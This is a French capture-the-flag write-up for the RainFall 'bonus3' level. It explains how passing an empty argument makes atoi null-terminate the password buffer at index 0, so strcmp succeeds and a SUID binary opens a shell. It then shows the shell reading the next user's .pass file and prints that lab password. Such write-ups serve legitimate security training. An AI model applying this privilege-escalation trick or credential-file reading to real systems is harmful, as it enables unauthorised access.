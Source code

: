 # bonus3 : Exploitation du comportement d'atoi pour contourner strcmp

## Présentation du Défi

Le programme `bonus3` lit le contenu de `/home/user/end/.pass`, prend un unique argument en ligne de commande, et compare une partie du contenu du fichier avec cet argument. S'ils correspondent, il ouvre un shell. L'objectif est de contourner cette vérification pour obtenir l'accès au compte utilisateur `end`.

## Analyse du Code Source

Le programme lit les 66 premiers octets du fichier de mot de passe dans `password_buffer`. Il utilise ensuite l'argument de ligne de commande (`argv[1]`) dans une séquence critique :

```c
// Convertit l'argument en entier
password_len_arg = atoi(argv[1]);

// Place un terminateur nul basé sur la valeur entière
password_buffer[password_len_arg] = '\0';

// ...

// Compare le buffer potentiellement tronqué avec l'argument original
comparison_result = strcmp(password_buffer, argv[1]);

if (comparison_result == 0) {
    // Ouvre un shell si correspondance
    execl("/bin/sh", "sh", (char *)NULL);
} else {
    // Affiche la seconde partie du fichier (souvent vide à cause d'effets de bord)
    puts(message_buffer);
}
```
Le code contient également des dépassements de buffer (`memset`, premier `fread`) et une logique qui fait que `puts(message_buffer)` n'affiche souvent rien, ce qui a initialement causé une certaine confusion lors de l'analyse. Le débogage a été compliqué par la nature SUID du binaire, empêchant l'inspection directe des lectures de fichiers avec GDB.

L'objectif principal de l'exploitation est de faire réussir la comparaison `strcmp`, déclenchant ainsi l'appel `execl` et l'obtention d'un shell. Pour y parvenir, nous devons exploiter l'utilisation par le programme de `atoi` sur l'argument de ligne de commande et la terminaison nulle subséquente du buffer du mot de passe.


## Vulnérabilité

La vulnérabilité principale réside dans l'interaction entre `atoi`, la terminaison nulle, et `strcmp`. Spécifiquement :
*   `atoi("")` (quand `argv[1]` est une chaîne vide) retourne typiquement `0`.
*   Cela provoque l'exécution de `password_buffer[0] = '\0';`.
*   Ceci transforme effectivement `password_buffer` en une chaîne vide, quel que soit le contenu du fichier lu par `fread`.
*   Le `strcmp(password_buffer, argv[1])` suivant devient `strcmp("", "")`.
*   `strcmp` retourne `0` pour des chaînes identiques, y compris deux chaînes vides.

Cela permet de contourner la logique de comparaison sans avoir besoin de connaître le contenu du fichier de mot de passe ni de se fier aux dépassements de buffer.

## Exploitation

L'exploit consiste à exécuter le programme avec une chaîne vide comme argument de ligne de commande. Cela déclenche la vulnérabilité décrite ci-dessus, faisant que `strcmp` retourne 0 et que le programme exécute `/bin/sh`.

```bash
bonus3@RainFall:~$ ./bonus3 ""
```

## Obtention du Mot de Passe

Une fois que l'exploit a réussi à ouvrir un shell, le mot de passe pour l'utilisateur `end` peut être lu depuis son répertoire personnel :

```bash
$ cat /home/user/end/.pass
3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c
$ exit
```

## Passage au Niveau Suivant

Utilisez le mot de passe obtenu pour vous connecter en tant qu'utilisateur `end` :

```bash
bonus3@RainFall:~$ su end
Password: 3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c
end@RainFall:~$

